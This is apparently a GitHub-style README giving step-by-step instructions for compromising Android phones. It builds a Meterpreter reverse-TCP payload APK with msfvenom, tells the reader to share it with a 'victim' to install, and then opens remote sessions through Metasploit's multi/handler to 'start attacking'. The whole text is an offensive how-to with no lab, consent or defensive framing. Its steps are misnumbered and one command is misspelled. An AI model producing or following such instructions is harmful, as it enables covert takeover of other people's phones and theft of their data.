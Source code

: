 
### Step By Step Process To Create The Payload  :
**Run This command in Kali Terminal**
1. check The Kali Version
`uname -r`

2.  give Root permission
`sudo su ` 

Enter Password and get Root permission
3. Now Check your IP Address (please Connect with internet before Run Commad )
`ip address`

4. open Second Terminal Run this Code 
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your IP address> LPORT=<choose Any port Number Greater than 8500>> /home/kali/payload.apk`

you are created One Apk file with payload. Apk Path : Home>kali>payload.apk 
5. Now share This Apk To the Victim And Install On That mobile 

6. **Start Exploitation**
Run `msfconsole` and press Enter
Now wait for 1 min your Meta-sploit freamwork is Load

7. Run `use exploit/multi/handler` 
8. for Designing of Hacking
`set payload android/meterpreter/reverse_tcp`

Set Your IP and Victim Port
10. `set LHOST <Your ip Address>`
11. `set LPORT <your choosen Port >`

Now run This command for verify Both LHOST and LPORT  `show`

12. Now if your Payload not Working set EXit commad
13. Run `set ExitOnSession false`
14. 
**NOW RUN PAYLOAD**

`exploit -j`
Now Your Payload is successfull Work in Background OF victims Android

Now When Victim Install This Apk ,,  Session automatically Start..

16. Run `sessions -i` and see the **ID** of Active Session (Example iD: 1 , 2, 3....)
17.  Now Run `sesssion -i <ID>`  and start Attacking
18. For performing Attack Run `help` and All commands you can Apply for Attack

**Thanks for Visiting @Yuvrajchauhan457**










